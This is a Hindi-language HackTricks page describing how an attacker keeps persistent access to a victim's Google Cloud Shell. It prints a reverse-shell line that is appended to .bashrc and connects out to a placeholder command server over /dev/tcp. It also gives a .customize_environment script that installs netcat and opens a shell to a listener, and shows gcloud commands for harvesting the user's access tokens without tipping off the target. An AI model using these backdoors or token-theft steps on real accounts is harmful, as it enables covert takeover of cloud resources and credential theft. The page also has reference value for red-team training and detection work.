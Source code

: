 # GCP - क्लाउड शेल पर्सिस्टेंस

<details>

<summary><strong>शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github repos.

</details>

## क्लाउड शेल

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### पर्सिस्टेंट बैकडोर

[**Google क्लाउड शेल**](https://cloud.google.com/shell/) आपको बिना किसी जुड़े हुए लागत के अपने ब्राउज़र से सीधे आपके क्लाउड संसाधनों तक कमांड-लाइन एक्सेस प्रदान करता है।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चलाकर Google के क्लाउड शेल तक पहुँच सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएं हैं:

1. **Google क्लाउड तक पहुँच वाले किसी भी Google उपयोगकर्ता** के पास पूरी तरह से प्रमाणित क्लाउड शेल इंस्टेंस तक पहुँच होती है (सर्विस अकाउंट्स भी, यहाँ तक कि वे संगठन के मालिक हों)।
2. उक्त इंस्टेंस अपनी होम डायरेक्टरी को कम से कम 120 दिनों तक बनाए रखेगा यदि कोई गतिविधि नहीं होती है।
3. संगठन के पास उस इंस्टेंस की गतिविधि की निगरानी करने की **कोई क्षमता नहीं है**।

इसका मूल रूप से यह अर्थ है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर डाल सकता है और जब तक उपयोगकर्ता हर 120 दिनों में कम से कम एक बार GC शेल से जुड़ता है, बैकडोर जीवित रहेगा और हमलावर को हर बार जब यह चलाया जाता है तो एक शेल मिलेगा, बस यह करके:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

घर के फोल्डर में एक और फाइल है जिसका नाम **`.customize_environment`** है, जो अगर मौजूद है, तो वह **हर बार निष्पादित की जाएगी** जब भी उपयोगकर्ता **cloud shell** तक पहुँचता है (पिछली तकनीक की तरह)। बस पिछले बैकडोर को डालें या निम्नलिखित जैसा एक डालें ताकि जब तक उपयोगकर्ता "अक्सर" cloud shell का उपयोग करता है, तब तक पर्सिस्टेंस बनाए रखा जा सके:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
ध्यान दें कि **Cloud Shell में पहली बार GCP क्रिया को अंजाम दिया जाता है जिसके लिए प्रमाणीकरण की आवश्यकता होती है**, तो यह उपयोगकर्ता के ब्राउज़र में एक प्राधिकरण विंडो **पॉप अप** करता है जिसे कमांड चलाने से पहले स्वीकार करना पड़ता है। यदि अप्रत्याशित पॉप-अप आता है, तो लक्ष्य संदिग्ध हो सकता है और पर्सिस्टेंस विधि को नष्ट कर सकता है।

यह पॉप-अप है जो `gcloud projects list` को cloud shell से निष्पादित करने पर आता है (हमलावर के रूप में) जिसे ब्राउज़र के उपयोगकर्ता सत्र में देखा जा सकता है।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

हालांकि, अगर उपयोगकर्ता ने सक्रिय रूप से cloudshell का उपयोग किया है, तो पॉप-अप प्रदर्शित नहीं होगा और आप **उपयोगकर्ता के टोकन इकट्ठा कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH कनेक्शन कैसे स्थापित किया जाता है

मूल रूप से, ये 3 API कॉल्स का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (आपको अपनी स्थानीय रूप से बनाई गई पब्लिक की जोड़ने की अनुमति देगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (आपको इंस्टेंस शुरू करने की अनुमति देगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (आपको गूगल क्लाउड शेल का आईपी बताएगा)

लेकिन आप अधिक जानकारी [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) पर पा सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;github repos.

</details>

